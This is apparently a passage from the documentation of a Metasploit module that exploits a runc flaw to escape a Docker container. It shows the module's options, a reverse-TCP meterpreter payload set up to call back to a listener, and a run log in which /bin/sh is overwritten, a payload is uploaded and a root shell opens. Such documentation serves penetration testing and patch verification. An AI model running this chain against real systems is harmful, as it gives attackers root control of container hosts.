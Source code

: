 ```
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper) x64


msf exploit(linux/local/docker_runc_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.144.1:4455
[*] Make a backup of /bin/sh (/tmp/VHR0jdR8V)
[*] Overwrite /bin/sh
[*] Upload payload
[*] Writing '/tmp/jPfX1LCnzb' (250 bytes) ...
[*] Upload exploit
[*] Writing '/tmp/aI0aDmv91K' (8744 bytes) ...
[*] Upload loop shell script ('runc' will be backed up to /tmp/IevTLfZ)
[*] Writing '/tmp/Rba74' (351 bytes) ...
[*] Launch exploit loop and wait for 300 sec.
[*] Sending stage (3012548 bytes) to 192.168.144.219
[+] Deleted /tmp/jPfX1LCnzb
[+] Deleted /tmp/aI0aDmv91K
[+] Deleted /tmp/Rba74
[+] Original runc binary restored
[*] Meterpreter session 2 opened (192.168.144.1:4455 -> 192.168.144.219:60124) at 2021-05-21 18:34:46 +0200
[*] Done. Waiting a bit more to make sure everything is setup...
[+] Session ready!

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Fedora 28 (Linux 5.0.16-100.fc28.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > [*] Shutting down Meterpreter...
```


[1]: https://github.com/opencontainers/runc/releases/tag/v1.0.0-rc7
[2]: https://github.com/opencontainers/runc/commit/6635b4f0c6af3810594d2770f662f34ddc15b40d
[3]: https://github.com/docker/docker-ce/releases/tag/v18.09.2
